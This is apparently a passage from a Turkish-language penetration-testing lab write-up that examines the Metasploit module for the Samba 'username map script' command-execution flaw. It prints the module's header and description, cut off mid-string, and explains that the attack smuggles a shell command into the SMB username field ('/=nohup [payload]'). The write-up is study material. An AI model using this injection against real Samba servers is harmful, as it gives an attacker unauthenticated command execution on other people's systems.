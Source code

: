 ### Tamamen Manuel

#### Script Analysis

Neler olduğunu anlamak için, exploit'in kaynağını alacağım:

![Pasted image 20250205203622.png](/img/user/Pasted%20image%2020250205203622.png)

Oldukça kısa:

```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = ExcellentRanking

        include Msf::Exploit::Remote::SMB

        # For our customized version of session_setup_ntlmv1
        CONST = Rex::Proto::SMB::Constants
        CRYPT = Rex::Proto::SMB::Crypt

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Samba "username map script" Command Execution',
                        'Description'    => %q{
                                        This module exploits a command execution vulnerability in Samba
                                versions 3.0.20 through 3.0.25rc3 when using the non-default
                                "username map script" configuration option. By specifying a username
                                containing shell meta characters, attackers can execute arbitrary
                                commands.

                                No authentication is needed to exploit this vulnerability since
                                this option is used to map usernames prior to authentication!
                        },
                        'Author'         => [ 'jduck' ],
                        'License'        => MSF_LICENSE,
                        'Version'        => '$Revision: 10040 


Önemli kısım en alttaki ==def exploit'te==. kullanarak bir SMB oturumu oluşturuyor:

```
kullanıcıadı = `/=nohup [payload]`
şifre = rastgele 16 karakter
domain = kullanıcı tarafından sağlanan domain
```


```